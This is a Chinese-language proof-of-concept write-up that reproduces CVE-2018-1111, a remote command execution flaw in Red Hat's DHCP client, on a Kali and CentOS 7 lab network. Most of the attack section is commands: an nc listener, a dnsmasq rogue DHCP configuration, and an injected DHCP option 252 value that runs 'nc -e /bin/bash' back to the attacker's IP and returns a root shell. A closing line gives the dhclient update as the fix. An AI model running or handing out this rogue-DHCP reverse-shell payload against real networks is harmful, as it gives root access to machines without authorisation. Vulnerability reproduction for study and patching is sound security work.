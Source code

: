 # 概述
CVE-2018-1111，远程代码执行漏洞。<br>
攻击者可以通过伪造DHCP服务器发送响应包，攻击红帽系统，获取root权限并执行任意命令。

# 复现
## 环境
kali x64 <br>
centos 7 <br>
vmware14 <br>

## 设置网络
断开kali和centos的网络,将kali和centos都设置成主机模式，并且关闭主机的dhcp功能 <br>
![image](https://raw.githubusercontent.com/zhonghaoling/cve_sec/master/CVE-2018-1111/photos/setting%20network.jpg)


## 对kali做配置
先对自己ip进行配置，添加路由 <br>
```
ifconfig eth0 192.168.131.52 netmask 255.255.255.0
route add default gw 192.168.131.52
````

利用nc监听1314端口（毕竟520，端口都得选个好的）
```
nc -l -p 1314 -v
```
创建一个文件dnsmasq.conf，内容如下: <br>
```
bind-interfaces
interface=eth0
except-interface=lo
dhcp-range=192.168.131.10,192.168.131.30,22h
dhcp-option=3,192.168.131.52
dhcp-option=6,192.168.131.52
log-queries
log-facility=/var/log/dnsmasq.log
```

利用dnsmasq伪造dns服务器<br>
```
dnsmasq -dC dnsmasq.conf --dhcp-option="252,'&nc -e /bin/bash 192.168.131.52 1314 #"
```
![image](https://raw.githubusercontent.com/zhonghaoling/cve_sec/master/CVE-2018-1111/photos/photo2.jpg) <br>
![image](https://raw.githubusercontent.com/zhonghaoling/cve_sec/master/CVE-2018-1111/photos/photo3.jpg) <br>


## 攻击
centos连接网络，发现是由kali分配的ip地址 <br>
![image](https://raw.githubusercontent.com/zhonghaoling/cve_sec/master/CVE-2018-1111/photos/photo4.jpg) <br>

此时在kali的nc可以拿到centos的shell，且为root权限 <br>
![image](https://raw.githubusercontent.com/zhonghaoling/cve_sec/master/CVE-2018-1111/photos/photo5.jpg) <br>

## 范围
本地测试fedora28、centos7通过 <br>

## 修复方法
```
yum update dhclient
```


[原文链接: 逍遥自在 ChaMd5安全团队](https://mp.weixin.qq.com/s/UEMdmuRxPiHKDfTxnc501A)



